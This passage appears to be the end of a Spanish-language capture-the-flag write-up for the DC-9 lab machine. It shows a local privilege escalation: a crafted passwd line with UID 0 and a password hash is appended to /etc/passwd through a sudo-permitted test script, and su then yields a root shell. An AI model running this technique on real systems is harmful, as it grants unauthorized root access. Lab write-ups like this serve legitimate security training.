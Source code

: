 Creamos un fichero con lo siguiente (user.txt)

```bash
user:$1$buZKpXN3$NPI6IUJkJTJKQTwGdqfyo1:0:0:user:/root:/bin/bash
```

Ejecutamos script

```bash
sudo /opt/devstuff/dist/test/test user.txt /etc/passwd
```

cambiamos al nuevo usuario como root

```html
fredf@dc-9:~$ su user
Password: 
root@dc-9:/home/fredf# whoami
root
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2017.png)

Y eso es todo

Happy Hacking!
